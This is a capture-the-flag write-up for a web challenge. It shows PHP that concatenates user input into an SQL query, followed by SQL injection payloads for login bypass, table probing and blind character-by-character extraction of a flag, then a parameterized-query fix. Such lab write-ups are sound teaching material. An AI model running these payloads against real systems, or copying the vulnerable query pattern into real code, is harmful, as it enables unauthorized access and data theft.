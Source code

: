 # WEB APPLICATION CTF Challenge Writeup

## Challenge Overview
- **Target**: `http://15.237.112.58:8087/`
- **Category**: Web application security challenge
- **Task**: Identify and exploit the vulnerability to retrieve the flag, then submit a comprehensive report.

## Challenge Description
A web application with a Single page returning "wrong !" was found to be vulnerable to SQL injection. The challenge requires extracting a hidden flag from the database by exploiting the authentication mechanism.


## Vulnerability Analysis

### Vulnerable Code
```php
<?php
$user=$_GET['user'];
$pass=$_GET['pass'];
$sql = @mysqli_fetch_assoc(mysqli_query($db,
    "SELECT * FROM users WHERE username='{$user}' AND password='{$pass}';"
));
?>
```

### Security Issues
1. **Direct input concatenation** into SQL queries
2. **Insufficient input filtering** that can be bypassed
3. **No parameterized statements** used

## Exploitation Steps

### Step 1: Authentication Bypass
First, we confirm SQL injection vulnerability:

```http
GET /?user='OR'1'='1'OR'a&pass=test HTTP/1.1
```

**Response**: `welcome \o/` 

### Step 2: Identify Database Structure
Check if a `flag` table exists:

```http
GET /?user='OR(length((select*from(flag)))>0)OR'a&pass=test HTTP/1.1
```

**Response**: `welcome \o/` 


### Step 3: Character-by-Character Extraction
Using the payload structure that bypasses filters:

```python
payload = f"'OR(mid((select(flag)from(flag)),{position},1))='{char}'OR'a"
```


## Solution

### Extracted Flag
```
flag{n0_w4f_c4n_st0p_m3}
```


### CVSS 4.0 Assessment
- **Base Score**: 9.3 CRITICAL
- **Vector**: CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:L/SI:L/SA:L

## Remediation Recommendations

### Immediate Actions
1. **Use parameterized queries**:
   ```php
   $stmt = $db->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
   $stmt->bind_param("ss", $user, $pass);
   ```



